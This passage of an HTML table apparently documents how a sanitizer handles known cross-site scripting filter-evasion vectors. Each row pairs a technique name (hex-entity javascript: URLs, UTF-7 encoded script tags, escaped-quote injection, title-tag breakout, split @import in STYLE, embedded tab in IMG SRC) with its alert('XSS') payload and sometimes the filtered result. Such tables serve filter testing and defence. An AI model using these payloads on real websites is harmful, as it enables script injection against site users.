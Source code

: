 SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x7 »
3&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;# »
x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74 »
&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x »
27&amp;#x29&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>UTF-7 Encoding</td>
<td>
<pre>&lt;HEAD&gt;&lt;META »
HTTP-EQUIV="CONTENT-TYPE" »
CONTENT="text/html; »
charset=UTF-7"&gt; »
&lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert »
('XSS');+ADw-/SCRIPT+AD4-</pre>
</td>
<td>
<pre>+ADw-SCRIPT+AD4-alert('XSS') »
;+ADw-/SCRIPT+AD4-</pre>
</td>
<td>
<div>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-</div></td>
</tr>
<tr>
<td>Escaping JavaScript escapes</td>
<td>
<pre>\";alert('XSS');//</pre>
</td>
<td>
<pre>\";alert('XSS');//</pre>
</td>
<td>
<div>\";alert('XSS');//</div></td>
</tr>
<tr>
<td>End title tag</td>
<td>
<pre>&lt;/TITLE&gt;&lt;SCRIPT&gt;alert("XSS") »
;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>STYLE w/broken up JavaScript</td>
<td>
<pre>&lt;STYLE&gt;@im\port'\ja\vasc\rip »
t:alert("XSS")';&lt;/STYLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Embedded Tab</td>
<td>
<pre>&lt;IMG »
SRC="jav**\t**ascript:alert('XSS' »
);"&gt;</pre>
</td>
<td></td>
<td></td>